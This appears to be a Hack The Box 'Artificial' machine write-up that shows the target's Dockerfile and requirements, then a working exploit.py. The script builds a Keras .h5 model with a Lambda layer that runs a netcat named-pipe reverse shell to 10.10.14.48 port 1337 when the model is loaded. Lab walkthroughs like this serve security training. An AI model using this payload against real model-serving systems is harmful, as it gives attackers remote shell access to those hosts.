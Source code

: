 After logging in, we land on a dashboard where we can **manage and run our machine learning model**.

The page provides links to both a `Dockerfile` and a `requirements.txt` file, which can be downloaded directly by clicking the links.

These files define the specific environment and dependencies required to build and run the model.


```
┌──(kali㉿kali)-[~/HTB-machine/artificial/writeup]
└─$ ls
Dockerfile  requirements.txt
                                                                                                                                                             
┌──(kali㉿kali)-[~/HTB-machine/artificial/writeup]
└─$ cat Dockerfile        
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
                                                                                                                                                             
┌──(kali㉿kali)-[~/HTB-machine/artificial/writeup]
└─$ cat requirements.txt 
tensorflow-cpu==2.13.1
                                                                                                
```

## Remote Code Execution (RCE) via Malicious TensorFlow Model

Based on the research found here:  
🔗 [TensorFlow Remote Code Execution with Malicious Model](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model),  
it's possible to achieve RCE by crafting a malicious `.h5` model file.

We create a model using TensorFlow and inject a reverse shell payload using a `Lambda` layer.

`exploit.py`

```python
┌──(kali㉿kali)-[~/HTB-machine/artificial/writeup]
└─$ cat exploit.py                           
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.48 1337 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
